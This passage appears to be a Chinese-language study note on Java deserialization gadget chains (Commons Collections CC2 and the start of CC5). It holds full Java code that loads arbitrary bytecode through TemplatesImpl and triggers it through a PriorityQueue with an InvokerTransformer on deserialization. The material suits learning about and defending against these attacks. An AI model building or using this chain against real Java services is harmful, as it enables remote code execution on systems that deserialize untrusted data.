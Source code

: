 ‍

CC2
===

一样要依赖于CC4 这里跳了一下直接走了`TemplatesImpl#newTransformer()`​去动态加载类

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingComparatorfield =  c.getDeclaredField("transformer");
        transformingComparatorfield.setAccessible(true);
        transformingComparatorfield.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
```

‍

CC5
===

CC5其实也是一种排列组合，就是作者在`TiedMapEntry`​中还找到了`toString`​方法也可以调用`LazyMap#get()`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d7256f41ce0f361df4a4f185671d2da9d918330a.png)​

都是一样的

所以去找了一下谁去调用了`toString`​方法 找到了`\src.zip!\javax\management\BadAttributeValueExpException.java`​
